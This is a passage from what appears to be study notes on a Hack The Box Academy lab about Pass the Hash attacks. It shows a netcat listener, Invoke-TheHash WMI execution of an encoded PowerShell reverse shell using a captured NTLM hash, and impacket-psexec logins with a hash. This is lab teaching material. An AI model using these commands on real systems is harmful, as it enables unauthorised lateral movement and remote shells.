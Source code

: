 We can also get a reverse shell connection in the target machine.&#x20;

<mark style="color:orange;">**Netcat Listener**</mark>

```powershell-session
PS C:\tools> .\nc.exe -lvnp 8001
listening on [any] 8001 ...
```

![text](https://academy.hackthebox.com/storage/modules/147/rshellonline.jpg)

Now we can execute `Invoke-TheHash` to execute our PowerShell reverse shell script in the target computer. Notice that instead of providing the IP address, which is `172.16.1.10`, we will use the machine name `DC01` (either would work).

<mark style="color:orange;">**Invoke-TheHash with WMI**</mark>

{% code title="" overflow="wrap" fullWidth="true" %}
```powershell-session
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e JAB..pAA=="
```
{% endcode %}

The result is a reverse shell connection from the DC01 host (172.16.1.10).

![text](https://academy.hackthebox.com/storage/modules/147/pth_invoke_the_hash.jpg)

***

### <mark style="color:blue;">Pass the Hash with Impacket (Linux)</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453


C:\Windows\system32>
```
{% endcode %}

There are several other tools in the Impacket toolkit we can use for command execution using Pass the Hash attacks, such as:

* [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
* [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
* [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

***

### <mark style="color:blue;">Pass the Hash with CrackMapExec (Linux)</mark>
